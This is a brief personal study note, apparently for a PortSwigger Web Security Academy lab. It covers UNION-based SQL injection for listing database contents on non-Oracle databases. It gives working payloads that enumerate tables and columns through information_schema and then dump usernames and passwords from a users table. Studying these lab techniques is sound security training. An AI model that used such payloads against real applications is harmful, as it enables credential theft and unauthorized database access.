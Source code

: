 ```yaml
---
{"dg-publish":true,"permalink":"/src/site/notes/src/site/notes/src/site/notes/src/site/notes/main/cs/ps-wsa-labs/sq-li/listing-the-database-contents-on-non-oracle-databases/"}
---
```







- Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:

```Plain
'+UNION+SELECT+'abc','def'--
```

- Use the following payload to retrieve the list of tables in the database: `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
- Use the following payload to display the table of usernames and passwords (replace the table names and users_abcdef)
    - `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--`
    - `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`